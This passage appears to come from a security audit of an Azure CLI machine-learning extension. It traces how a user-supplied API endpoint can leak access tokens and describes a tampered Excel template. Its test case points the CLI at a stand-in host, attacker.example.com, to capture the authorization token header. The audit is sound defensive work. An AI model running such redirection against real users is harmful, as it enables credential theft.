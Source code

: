 - **Source Code Analysis:**
    1. **`/code/automated_assessment/azext_mlclassicextension/api_client.py`**: `APIClient` constructor takes `api_endpoint` and uses it to construct API URLs in `__send_get_req` and `__send_management_get_req`.
    2. **`/code/automated_assessment/azext_mlclassicextension/workspace.py`**: `MLClassicWorkspace` constructor passes `api_endpoint` to `APIClient`.
    3. **`/code/automated_assessment/azext_mlclassicextension/__init__.py`**: CLI command functions like `show_workspace` take `workspace_api_endpoint` and pass it to `MLClassicWorkspace`.
    4. **`/code/automated_assessment/azext_mlclassicextension/__init__.py` & `/code/automated_assessment/azext_mlclassicextension/commands.py`**: `MLClassicCommandsLoader.load_arguments` defines `workspace_api_endpoint` as a CLI argument.

    ```
    User (CLI) -->  az mlclassic workspace show --wapi <malicious_endpoint> ...
                      |
                      V
    CLI Extension (__init__.py) --> show_workspace(workspace_api_endpoint=<malicious_endpoint>, ...)
                                        |
                                        V
    MLClassicWorkspace (workspace.py) --> APIClient(api_endpoint=<malicious_endpoint>, ...)
                                              |
                                              V
    APIClient (api_client.py) --------> requests.get(url=urljoin(<malicious_endpoint>, api_path), ...)
                                                      |
                                                      V
    Attacker Server (malicious_endpoint) <-- Receives API request with Access Token and Workspace Data
    ```

- **Security Test Case:**
    1. **Setup Attacker Server:** Create an HTTP server (e.g., Python `http.server`) logging all requests on a public IP (e.g., `http://attacker.example.com:8080`).
    2. **Malicious API Endpoint URL:** Construct a malicious URL: `http://attacker.example.com:8080/api/`.
    3. **Run CLI with Malicious Endpoint:** Execute Azure CLI command with `--workspace-api-endpoint http://attacker.example.com:8080/api/` and valid workspace details.
    4. **Inspect Attacker Server Logs:** Check server logs for received HTTP requests, including headers and paths.
    5. **Verify Data Interception:** Analyze intercepted requests for access token (`x-ms-metaanalytics-authorizationtoken`) and workspace details.

### 3. Malicious Excel Template Distribution

- **Description:**
    - An attacker replaces the legitimate `self-assessment-survey.xlsx` file in the repository with a malicious Excel file.
    - This malicious file contains macros or other embedded threats.
    - A user downloads and opens this compromised Excel file, trusting the repository.
    - Malicious content within the Excel file executes upon opening.

- **Impact:**
    - Malware infection on the user's machine.
    - Unauthorized access to the user's system and data.
    - Data theft, system compromise, and malware propagation within the user's network.
